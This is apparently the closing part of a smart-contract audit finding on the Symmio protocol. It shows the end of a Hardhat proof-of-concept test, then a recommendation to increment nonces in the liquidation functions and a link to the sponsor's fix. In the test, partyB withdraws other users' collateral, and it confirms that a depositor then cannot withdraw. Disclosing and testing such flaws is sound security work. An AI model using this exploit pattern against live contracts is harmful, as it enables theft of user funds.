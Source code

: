 ```ts
  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  await time.increase(300);
  await context.accountFacet.connect(this.hedger.signer).withdraw(balance);

  var balance = await context.collateral.balanceOf(this.hedger.getAddress());
  console.log("Withdrawn partyB balance: " + balance/1e18);
  var balance = await context.collateral.balanceOf(context.diamond);
  console.log("Protocol balance: " + balance/1e18 + " (less than unsuspected user deposited)");

  // try to withdraw unsuspected user's balance
  await expect(context.accountFacet.connect(this.user2.signer).withdraw(this.protocol_allocated))
    .to.be.revertedWith("ERC20: transfer amount exceeds balance");

  console.log("User who only deposited 1000 is unable to withdraw his deposit because partyB has stolen his funds");

});
```

## Tool used

Manual Review

## Recommendation

Add nonce increase for both partyA and party for all liquidation functions. They might not be needed in all liquidation functions, but since they're quite tricky in parties state change, I suggest to increase nonce in all of them. However, at the very least nonce should be increased in the following functions:

1. `liquidatePartyA`. Increase nonce for partyA
2. `liquidatePendingPositionsPartyA`. Increase nonce for partyA and for all corresponding partyBs (because pending quotes are liquidated, freeing up locked balance, which is a state changing action)
3. `liquidatePositionsPartyA`. Increase nonce for partyA and for all corresponding partyBs (because partyB allocatedBalance and upnl are changed and open position is liquidated)
4. `liquidatePartyB`. Increase nonce for partyA and partyB (because allocatedBalance for both parties changes).
5. `liquidatePositionsPartyB`. Increase nonce for partyA and partyB (because positions are deleted)





## Discussion

**hrishibhat**

Fix from Sponsor:
> Fixed code PR link:
https://github.com/SYMM-IO/symmio-core/pull/15
